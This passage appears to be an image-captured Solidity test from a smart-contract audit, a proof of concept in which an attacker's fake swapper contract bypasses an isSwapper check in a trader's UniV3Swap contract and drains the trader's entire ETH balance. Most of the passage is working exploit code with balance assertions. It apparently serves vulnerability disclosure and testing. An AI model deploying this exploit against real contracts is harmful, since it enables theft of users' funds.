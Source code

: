 ```solidity
            0, // anyway attacker will receive all the excess value
            changedCallbackData
            );
        WalletImpl.Call[] memory calls = new WalletImpl.Call[](1);
        calls[0] = WalletImpl.Call({to: msg.sender, value: 0, data: data});
        proxySwapper.execCalls(calls);

        /*
        // Direct call will fail with "Unauthorized()" reason
        ISwapperFlashCallback(msg.sender).swapperFlashCallback({
            tokenToBeneficiary: ETH_ADDRESS,
            amountToBeneficiary: 0,
            data: callbackData_
        });
        */ 
    }
}

contract AttackerTest is SwapperImplTest {
    UniV3Swap uniV3Swap;
    address attacker;
    AttackerFakeSwapper attackerFakeSwapper;
    
    function setUp() public virtual override {
        super.setUp();

        // Trader's contract. Used by EOAs & simple bots to execute swapper#flash with uniswap v3
        vm.prank(trader);
        uniV3Swap = new UniV3Swap(
            swapperFactory, 
            ISwapRouter(UNISWAP_V3_FACTORY), 
            IWETH9(address(new WETH()))
            );

        // Trustless creation of proxy-swapper within a `swapperFactory`
        createSwapperParams.owner = address(this);
        SwapperImpl proxySwapper = swapperFactory.createSwapper(createSwapperParams);

        // Attacker's contract. Could be passed as a swapper to trader's contract
        attacker = vm.addr(1337);
        vm.prank(attacker);
        attackerFakeSwapper = new AttackerFakeSwapper(proxySwapper);
        proxySwapper.transferOwnership(address(attackerFakeSwapper));
    }

    function test_isSwapperCheckBypass() public unpaused {

        console.log("attacker balance", attacker.balance);
        console.log("trader balance", trader.balance);

        // Execute flash() with all the trader's balance, passing a fraud address as a swapper
        UniV3Swap.InitFlashParams memory params;
        params.quoteParams = quoteParams;
        params.flashCallbackData.excessRecipient = trader;
        vm.prank(trader);
        uniV3Swap.initFlash{value: trader.balance}(SwapperImpl(address(attackerFakeSwapper)), params);

        console.log("====================================");
        console.log("attacker balance", attacker.balance);
        console.log("trader balance", trader.balance);
        assert(attacker.balance != 0);
        assert(trader.balance == 0);
```